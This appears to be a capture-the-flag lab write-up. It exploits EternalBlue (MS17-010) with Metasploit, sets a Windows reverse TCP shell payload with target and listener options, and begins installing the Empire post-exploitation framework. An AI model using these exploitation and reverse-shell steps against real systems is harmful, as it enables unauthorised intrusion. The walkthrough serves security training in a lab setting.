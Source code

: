 First of all, you need to start msfconsole. I prefer the silent way, so i write the 
command```msfconsole -q```. I just dont want the banners 😁

When msf loads you choose the right exploit for the job! This is the right one i have found in 
Google :

```use exploit/windows/smb/ms17_010_eternalblue```

You can simply search inside metasploit for an exploit by running the command:

```search ms17_010_eternalblue```

When you see the exploit you want to use you simply write:

```use exploit_number_here```

And metasploit will pick the hole exploit name for you.

After an update in metasploit, you are not going to be able to get a reverse shell with the 
default payload metasploit gives you so you need to find a better one, that works.

After spending a hole hour searching which one is working, eventually i found it.

```set payload /windows/x64/shell/reverse_tcp```

When you set the payload successfully you need to see the options available to you.

```
run the show options command / or just options (I prefer it).
Change Rhosts to { target_ip }
Change Lhost to your {thm_vpn_ip}
Change Rport to {your_choice}
Run the exploit with the exploit command!
```

---

## Install

It was the first time i used the Empire framework, so i did some reading about it and so 
should you. It is very interesting for anyone who has never used it before.

Github repository :

[Empire Repository](https://github.com/BC-SECURITY/Empire/)

Official website :

[Empire Website](https://www.bc-security.org/post/the-empire-3-0-strikes-back)

When you feel ready, the first thing you need to do of course is to install it.

* Open your terminal and go to opt directory { cd /opt }.

* When you are inside opt copy this git command to get the repository locally git clone https:/
/github.com/BC-SECURITY/Empire/.

* When you successfully download it enter the directory cd /opt/Empire

* When you successfully enter the directory, simply enter this command to start installing in 
into your system ./setup/install.sh.

* When prompted, enter in a server negotiation password. This can be left blank for random 
generation, however, you should record this somewhere such as a LastPass vault. I just entered 
a password i commonly use, just to be sure that i am going to be able to remember it.

```